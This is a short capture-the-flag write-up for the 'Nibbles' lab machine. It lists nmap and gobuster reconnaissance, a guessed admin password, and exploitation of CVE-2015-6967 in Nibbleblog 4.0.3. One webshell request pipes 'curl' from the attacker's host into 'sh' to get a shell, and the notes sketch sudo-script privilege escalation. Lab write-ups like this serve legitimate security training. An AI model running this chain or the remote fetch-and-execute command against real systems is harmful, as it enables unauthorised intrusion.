

# Nibbles

## Machine Info


## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http


- Path enum: `$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -x php -s 200 -b '' -t 50`


- Version: **Nibbleblog 4.0.3**

## Foothold

### crack password

- username: admin


- admin:123456 [x]

- **admin:nibbles** [y]

### CVE-2015-6967

- searchsploit



- [0xConstant/CVE-2015-6967 (github.com)](https://github.com/0xConstant/CVE-2015-6967)


- `10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?rce=curl%20[http://10.10.14.15/q.sh%20|%20sh](http://10.10.14.15/q.sh | sh)`

- get a user shell


## Privilege Escalation

- nibbler priv


- sudo bash script


## Exploit Chain

dir enum -> file enum -> version check -> searchsploit, exp yes, no password -> brute force pass -> cve usage -> get a user shell -> sudo script altering -> get a root shell

